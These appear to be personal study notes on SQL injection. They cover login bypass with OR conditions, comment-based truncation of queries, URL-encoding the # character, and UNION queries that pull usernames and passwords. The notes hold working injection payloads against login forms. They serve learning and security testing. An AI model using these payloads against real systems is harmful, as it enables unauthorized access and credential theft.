 Example Login statement:
```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```
If results returned then it is correct. 
##### OR Injection
Need the query to return true
```sql
admin' or '1'='1
```
Final Query: 
```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```
![[Pasted image 20230830162225.png]]

###### If you do not no the username
```sql
Username field = notadmin' or '1=1'
```
```sql
password field = pass' or '1=1'
```
## Using Comments 
### Description 
Comments used to document queries 
(Need an empty space after `--`)
```sql
SELECT username FROM logins; -- Selects usernames from the logins table 
```
Can also use  `#`
```Mysql
SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```
Often need to encode the `#` as `%23`
#### Auth Bypass with comment s
```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
``` 
May need to add parenthesis if they are used. 
`admin')--`
Will allow this:
```sql
SELECT * FROM logins where (username='admin')
```
### Union Clause 
Can be used to combine results 
```MySQL
SELECT * FROM ports UNION SELECT * FROM ships;
```
Only works with equal number of columns. 
##### Example Injection 
```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

